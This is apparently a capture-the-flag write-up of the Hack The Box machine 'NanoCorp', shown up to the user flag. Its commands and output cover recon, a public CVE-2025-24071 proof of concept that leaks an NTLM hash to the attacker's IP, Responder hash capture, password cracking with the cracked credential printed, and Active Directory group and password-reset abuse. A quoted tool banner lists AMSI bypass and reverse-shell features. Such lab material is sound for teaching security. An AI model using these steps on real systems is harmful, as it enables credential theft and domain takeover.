






## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Domain Enumeration](#Domain-Enumeration)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Subdomain Enumeration](#Subdomain-Enumeration)
- [Foothold](#Foothold)
    - [CVE-2025-24071:  Windows File Explorer Spoofing Vulnerability](#CVE-2025-24071-Windows-File-Explorer-Spoofing-Vulnerability)
    - [Cracking the Hash using John the Ripper](#Cracking-the-Hash-using-John-the-Ripper)
- [Active Directory Configuration Dump](#Active-Directory-Configuration-Dump)
- [Time and Date Synchronization](#Time-and-Date-Synchronization)
- [Privilege Escalation to monitoring_svc](#Privilege-Escalation-to-monitoring_svc)
    - [Access Control Entry (ACE) AddSelf Abuse](#Access-Control-Entry-ACE-AddSelf-Abuse)
- [user.txt](#usertxt)
- [Enumeration](#Enumeration)
- [Privilege Escalation to SYSTEM](#Privilege-Escalation-to-SYSTEM)
    - [CVE-2025-33073: NTLM Reflection](#CVE-2025-33073-NTLM-Reflection)
- [root.txt](#roottxt)

## Summary

The box starts with `CVE-2025-24071` aka `Windows File Explorer Spoofing` usable on a `Subdomain` or `Virtual Host (VHOST)` entry which hosts a `hiring portal` that provides an `Upload Form`.

After cracking the leaked `NTLM Hash` using `John the Ripper` a `dump` of the `Active Directory` `Configurjation` using `BloodHound` reveals that the user `web_svc` has the `Access Control Entry (ACE)` for `AddSelf` on the `IT_SUPPORT` group set.

This allows to add the user `web_svc` to the group and abuse the capabilities of the group to `reset` the `password` for `monitoring_svc` which leads to a session on the box and to the `user.txt`.

For the `Privilege Escalatioan` to `SYSTEM` it is possible to abuse `CVE-2025-33073` which is `NTLM Reflection` through `Coercing`.

## Reconnaissance

### Port Scanning

We started with our initial `port scan` using `Nmap`. We spotted port `80/TCP` and port `5986/TCP` to stood out of the typical or expected ports.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.62.132
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-08 20:03 CET
Nmap scan report for 10.129.62.132
Host is up (0.016s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
80/tcp   open  http              Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
|_http-title: Did not follow redirect to http://nanocorp.htb/
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-11-09 02:04:02Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
5986/tcp open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: TLS randomness does not represent time
|_http-title: Not Found
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.nanocorp.htb
| Subject Alternative Name: DNS:dc01.nanocorp.htb
| Not valid before: 2025-04-06T22:58:43
|_Not valid after:  2026-04-06T23:18:43
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Hosts: nanocorp.htb, DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-11-09T02:04:16
|_  start_date: N/A
|_clock-skew: 7h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.30 seconds
```

### Domain Enumeration

We performed a quick enumeration using `enum4linux-ng` while `Nmap` was running and added `nanocorp.htb` and `dc01.nanocorp.htb` to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ python3 enum4linux-ng.py 10.129.62.132
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.62.132
[*] Username ......... ''
[*] Random Username .. 'tinelvja'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ======================================
|    Listener Scan on 10.129.62.132    |
 ======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 =====================================================
|    Domain Information via LDAP for 10.129.62.132    |
 =====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: nanocorp.htb

 ============================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.62.132    |
 ============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ==========================================
|    SMB Dialect Check on 10.129.62.132    |
 ==========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: true

 ============================================================
|    Domain Information via SMB session for 10.129.62.132    |
 ============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC01
NetBIOS domain name: NANOCORP
DNS domain: nanocorp.htb
FQDN: DC01.nanocorp.htb
Derived membership: domain member
Derived domain: NANOCORP

 ==========================================
|    RPC Session Check on 10.129.62.132    |
 ==========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 ====================================================
|    Domain Information via RPC for 10.129.62.132    |
 ====================================================
[+] Domain: NANOCORP
[+] Domain SID: S-1-5-21-2261381271-1331810270-697239744
[+] Membership: domain member

 ================================================
|    OS Information via RPC for 10.129.62.132    |
 ================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                                                                                                                                                                                                                  
OS version: '10.0'                                                                                                                                                                                                                                                                                                                                                                                                                        
OS release: ''                                                                                                                                                                                                                                                                                                                                                                                                                            
OS build: '20348'                                                                                                                                                                                                                                                                                                                                                                                                                         
Native OS: not supported                                                                                                                                                                                                                                                                                                                                                                                                                  
Native LAN manager: not supported                                                                                                                                                                                                                                                                                                                                                                                                         
Platform id: null                                                                                                                                                                                                                                                                                                                                                                                                                         
Server type: null                                                                                                                                                                                                                                                                                                                                                                                                                         
Server type string: null                                                                                                                                                                                                                                                                                                                                                                                                                  

 ======================================
|    Users via RPC on 10.129.62.132    |
 ======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 =======================================
|    Groups via RPC on 10.129.62.132    |
 =======================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 =======================================
|    Shares via RPC on 10.129.62.132    |
 =======================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ==========================================
|    Policies via RPC for 10.129.62.132    |
 ==========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ==========================================
|    Printers via RPC for 10.129.62.132    |
 ==========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 8.83 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.62.132   nanocorp.htb
10.129.62.132   dc01.nanocorp.htb
```

### Enumeration of Port 445/TCP

Since port `445/TCP` usually have some quick wins we performed a few checks on to see if it could lead to something. But this time we had no luck.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/NanoCorp/files]
└─$ netexec smb 10.129.62.132 -u '' -p '' --shares
SMB         10.129.62.132   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:nanocorp.htb) (signing:True) (SMBv1:False) 
SMB         10.129.62.132   445    DC01             [+] nanocorp.htb\: 
SMB         10.129.62.132   445    DC01             [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/NanoCorp/files]
└─$ netexec smb 10.129.62.132 -u ' ' -p ' ' --shares
SMB         10.129.62.132   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:nanocorp.htb) (signing:True) (SMBv1:False) 
SMB         10.129.62.132   445    DC01             [-] nanocorp.htb\ :  STATUS_LOGON_FAILURE
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/NanoCorp/files]
└─$ netexec smb 10.129.62.132 -u 'Guest' -p '' --shares 
SMB         10.129.62.132   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:nanocorp.htb) (signing:True) (SMBv1:False) 
SMB         10.129.62.132   445    DC01             [-] nanocorp.htb\Guest: STATUS_ACCOUNT_DISABLED
```

### Enumeration of Port 80/TCP

Next we moved on with port `80/TCP` and found a `Subdomain` or `Virtual Host (VHOST)` entry on the `About Us` page, which we also added to our `/etc/hosts` file.

- [http://nanocorp.htb/](http://nanocorp.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://nanocorp.htb/   
http://nanocorp.htb [200 OK] Apache[2.4.58], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12], IP[10.129.62.132], JQuery, OpenSSL[3.1.3], PHP[8.2.12], Script, Title[Nanocorp]
```





```shell
hire.nanocorp.htb
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.62.132   nanocorp.htb
10.129.62.132   dc01.nanocorp.htb
10.129.62.132   hire.nanocorp.htb
```

### Subdomain Enumeration

Since there was at least one `Subdomain` configured, we ran `ffuf` to see if there would be more.

```shell
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.nanocorp.htb" -u http://nanocorp.htb/ --fw 22

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nanocorp.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.nanocorp.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 22
________________________________________________

hire                    [Status: 200, Size: 2520, Words: 646, Lines: 68, Duration: 597ms]
:: Progress: [151265/151265] :: Job [1/1] :: 2222 req/sec :: Duration: [0:01:57] :: Errors: 0 ::
```

## Foothold

### CVE-2025-24071:  Windows File Explorer Spoofing Vulnerability

We started investigating the newly found `Subdomain` and got greeted with an `application form` for candidates to apply for vacancies.


Since we got the option to upload our resume offered to us, we searched for recent vulnerabilities that would allow to `leak` or `exfiltrate` the `NTLM Hash` of a user,

And we found `CVE-2025-24071` which abused a vulnerability within the `Windows File Explorer` by using `.library-ms` files.

- [https://github.com/0x6rss/CVE-2025-24071_PoC](https://github.com/0x6rss/CVE-2025-24071_PoC)

We prepared the `payload` to point to our local machine and started `Responder`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/NanoCorp/files]
└─$ git clone https://github.com/0x6rss/CVE-2025-24071_PoC
Cloning into 'CVE-2025-24071_PoC'...
remote: Enumerating objects: 18, done.
remote: Counting objects: 100% (18/18), done.
remote: Compressing objects: 100% (16/16), done.
remote: Total 18 (delta 4), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (18/18), 6.30 KiB | 2.10 MiB/s, done.
Resolving deltas: 100% (4/4), done.
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/NanoCorp/files/CVE-2025-24071_PoC]
└─$ python3 poc.py 
Enter your file name: application
Enter IP (EX: 192.168.1.162): 10.10.16.97
completed
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/NanoCorp/files/CVE-2025-24071_PoC]
└─$ ls -la
total 12
drwxrwx--- 1 root vboxsf   60 Nov  8 20:28 .
drwxrwx--- 1 root vboxsf   60 Nov  8 20:28 ..
-rwxrwx--- 1 root vboxsf  331 Nov  8 20:23 exploit.zip
drwxrwx--- 1 root vboxsf  122 Nov  8 20:14 .git
-rwxrwx--- 1 root vboxsf 1003 Nov  8 20:14 poc.py
-rwxrwx--- 1 root vboxsf  966 Nov  8 20:14 README.md
```

Then we `applied` to all of the open vacancies with the same `payload` and after a while, we got our hit on `Responder`.



```shell
┌──(kali㉿kali)-[~]
└─$ sudo responder -I tun0
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.16.97]
    Responder IPv6             [dead:beef:4::105f]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-MIJ7WW1OVEO]
    Responder Domain Name      [WKJY.LOCAL]
    Responder DCE-RPC Port     [47802]

[*] Version: Responder 3.1.7.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>
[*] To sponsor Responder: https://paypal.me/PythonResponder

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.62.132
[SMB] NTLMv2-SSP Username : NANOCORP\web_svc
[SMB] NTLMv2-SSP Hash     : web_svc::NANOCORP:3114ef2cee2751e8:765876CECC5F7F93F6A71C0AC60B35E7:010100000000000080128068EC50DC01961FFCE308DC32D0000000000200080057004B004A00590001001E00570049004E002D004D0049004A0037005700570031004F00560045004F0004003400570049004E002D004D0049004A0037005700570031004F00560045004F002E0057004B004A0059002E004C004F00430041004C000300140057004B004A0059002E004C004F00430041004C000500140057004B004A0059002E004C004F00430041004C000700080080128068EC50DC0106000400020000000800300030000000000000000000000000200000C514472A90E0099CD9816EDE3D7CE853D780F99C7BF96E1C741AB25B3F712EAD0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00390037000000000000000000
```

### Cracking the Hash using John the Ripper

We cracked the `Hash` using `John the Ripper` and retrieved the `password` for the user `web_svc`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/NanoCorp/files]
└─$ cat web_svc.hash 
web_svc::NANOCORP:3114ef2cee2751e8:765876CECC5F7F93F6A71C0AC60B35E7:010100000000000080128068EC50DC01961FFCE308DC32D0000000000200080057004B004A00590001001E00570049004E002D004D0049004A0037005700570031004F00560045004F0004003400570049004E002D004D0049004A0037005700570031004F00560045004F002E0057004B004A0059002E004C004F00430041004C000300140057004B004A0059002E004C004F00430041004C000500140057004B004A0059002E004C004F00430041004C000700080080128068EC50DC0106000400020000000800300030000000000000000000000000200000C514472A90E0099CD9816EDE3D7CE853D780F99C7BF96E1C741AB25B3F712EAD0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00390037000000000000000000
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/NanoCorp/files]
└─$ sudo john web_svc.hash --wordlist=/usr/share/wordlists/rockyou.txt 
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
dksehdgh712!@#   (web_svc)     
1g 0:00:00:01 DONE (2025-11-08 20:26) 0.9174g/s 1702Kp/s 1702Kc/s 1702KC/s dobson5499..djcward
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

| Username | Password       |
| -------- | -------------- |
| web_svc  | dksehdgh712!@# |

## Active Directory Configuration Dump

After getting the `password` for the user `web_svc` we not achieved `Foothold` on the box. Therefore we used his `credentials` to `authenticate` against the `Active Directory` do dump the `configuration` using the `NetExec` `Module` of `BloodHound`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/NanoCorp/files]
└─$ netexec ldap 10.129.62.132 -u 'web_svc' -p 'dksehdgh712!@#' --bloodhound --dns-tcp --dns-server 10.129.62.132 -c all
LDAP        10.129.62.132   389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:nanocorp.htb)
LDAP        10.129.62.132   389    DC01             [+] nanocorp.htb\web_svc:dksehdgh712!@# 
LDAP        10.129.62.132   389    DC01             Resolved collection methods: localadmin, container, objectprops, rdp, trusts, acl, dcom, group, psremote, session
LDAP        10.129.62.132   389    DC01             Done in 00M 05S
LDAP        10.129.62.132   389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.129.62.132_2025-11-08_203252_bloodhound.zip
```

## Time and Date Synchronization

Because we assumed that we were required to `request` a `Kerberos Ticket` at some point in the future, we `synchronized` our local `Date` and `Time` with the `Domain Controller`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
[sudo] password for kali: 
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service.
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo systemctl stop systemd-timesyncd
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo net time set -S 10.129.62.132
```

## Privilege Escalation to monitoring_svc

### Access Control Entry (ACE) AddSelf Abuse

Then we took a look at what we dumped using `BloodHound`. We noticed that the user `web_svc` had the `Access Control Entry (ACE)` of `AddSelf` set on the `IT_SUPPORT` group.





We also found another user called `monitoring_svc` which was allowed to `login` on the box.



Therefore the attack path was clear. We requested a `Kerberos Ticket` as `web_svc` and `added` ourselves to the `IT_SUPPORT` group.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/NanoCorp/files]
└─$ impacket-getTGT 'nanocorp.htb/web_svc':'dksehdgh712!@#'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in web_svc.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/NanoCorp/files]
└─$ export KRB5CCNAME=web_svc.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/NanoCorp/files]
└─$ bloodyAD --host dc01.nanocorp.htb -d nanocorp.htb -u 'web_svc' -p 'dksehdgh712!@#' -k add groupMember IT_SUPPORT web_svc
[+] web_svc added to IT_SUPPORT
```

Since `IT Support Departments` usually have the ability to `reset passwords` for users, we did the same and `reset` the `password` for `monitoring_svc`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/NanoCorp/files]
└─$ bloodyAD --host dc01.nanocorp.htb -d nanocorp.htb -u 'web_svc' -p 'dksehdgh712!@#' -k set password monitoring_svc 'P@ssw0rd123' 
[+] Password changed successfully!
```

Then we requested another `Kerberos Ticket` but this time for `monitoring_svc`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/NanoCorp/files]
└─$ impacket-getTGT 'nanocorp.htb/monitoring_svc':'P@ssw0rd123'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in monitoring_svc.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/NanoCorp/files]
└─$ export KRB5CCNAME=monitoring_svc.ccache
```

After `exporting` the `ticket` to our current shell we logged in using port `5986/TCP` and grabbed the `user.txt`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/NanoCorp/files]
└─$ python3 ~/opt/10_post_exploitation/winrmexec/evil_winrmexec.py nanocorp.htb/monitoring_svc:'P@ssw0rd123'@dc01.nanocorp.htb -k -ssl -port 5986
[*] '-target_ip' not specified, using dc01.nanocorp.htb
[*] '-url' not specified, using https://dc01.nanocorp.htb:5986/wsman
[*] using domain and username from ccache: NANOCORP.HTB\monitoring_svc
[*] '-spn' not specified, using HTTP/dc01.nanocorp.htb@NANOCORP.HTB
[*] '-dc-ip' not specified, using NANOCORP.HTB
[*] requesting TGS for HTTP/dc01.nanocorp.htb@NANOCORP.HTB

Ctrl+D to exit, Ctrl+C will try to interrupt the running pipeline gracefully
This is not an interactive shell! If you need to run programs that expect
inputs from stdin, or exploits that spawn cmd.exe, etc., pop a !revshell

Special !bangs:
  !download RPATH [LPATH]          # downloads a file or directory (as a zip file); use 'PATH'
                                   # if it contains whitespace

  !upload [-xor] LPATH [RPATH]     # uploads a file; use 'PATH' if it contains whitespace, though use iwr
                                   # if you can reach your ip from the box, because this can be slow;
                                   # use -xor only in conjunction with !psrun/!netrun

  !amsi                            # amsi bypass, run this right after you get a prompt

  !psrun [-xor] URL                # run .ps1 script from url; uses ScriptBlock smuggling, so no !amsi patching is
                                   # needed unless that script tries to load a .NET assembly; if you can't reach
                                   # your ip, !upload with -xor first, then !psrun -xor 'c:\foo\bar.ps1' (needs absolute path)

  !netrun [-xor] URL [ARG] [ARG]   # run .NET assembly from url, use 'ARG' if it contains whitespace;
                                   # !amsi first if you're getting '...program with an incorrect format' errors;
                                   # if you can't reach your ip, !upload with -xor first then !netrun -xor 'c:\foo\bar.exe' (needs absolute path)

  !revshell IP PORT                # pop a revshell at IP:PORT with stdin/out/err redirected through a socket; if you can't reach your ip and you
                                   # you need to run an executable that expects input, try:
                                   # PS> Set-Content -Encoding ASCII 'stdin.txt' "line1`nline2`nline3"
                                   # PS> Start-Process some.exe -RedirectStandardInput 'stdin.txt' -RedirectStandardOutput 'stdout.txt'

  !log                             # start logging output to winrmexec_[timestamp]_stdout.log
  !stoplog                         # stop logging output to winrmexec_[timestamp]_stdout.log

PS C:\Users\monitoring_svc\Documents>
```

## user.txt

```shell
PS C:\Users\monitoring_svc\Desktop> type user.txt
